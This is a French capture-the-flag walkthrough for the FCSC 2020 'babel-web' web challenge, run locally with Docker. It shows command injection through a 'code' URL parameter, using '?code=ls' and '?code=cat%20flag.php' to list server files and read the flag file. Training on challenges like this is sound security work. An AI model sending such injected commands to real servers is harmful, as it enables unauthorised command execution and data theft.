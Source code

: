 # ETAPE 1:
Pour commencer
Téléchargez le fichier docker-compose.yml :
curl https://hackropole.fr/challenges/fcsc2020-web-babel-web/docker-compose.public.yml -o docker-compose.yml
# ETAPE 2:
Lancez l'épreuve en exécutant dans le même dossier :
docker compose up
# ETAPE 3:
Accéder à l'épreuve à l'adresse http://localhost:8000/.
# ETAPE 4:
  Nous pouvons avoir un peu plus d'information avec extention wappalyzer
  OS:DEBIAN
  WEB: Apache 2.4.54
  PHP: 7.4.33
  
  Le premier constat est que le site n'est pas sécurisé (HTTPS)
  
  Avec le mode debugeur de EDGE (F12), nous avons une section en commentaire
    "<!-- <a href="?source=1">source</a> -->"
  Il faut decommenter cette section : "<a href="?source=1">source</a>"
  Reactualisez la page, nous avons maintenant un lien sources
  
  Acceder sur le site http://localhost:8000/?code=ls
    la cmd ls permet de lister les fichiers sous linux via la variable code
  le resultat est deux fichiers qui s'affichent dans votre navigateur 
    flag.php
    index.php
  Acceder mainteant http://localhost:8000/?code=cat%20flag.php
    la cmd cat permet afficher le contenu et  la chaine de caractères %20 pour remplacer l’espace dans l’url
  Nous pouvons recuperer le $flad dans le debugeur du navigateur
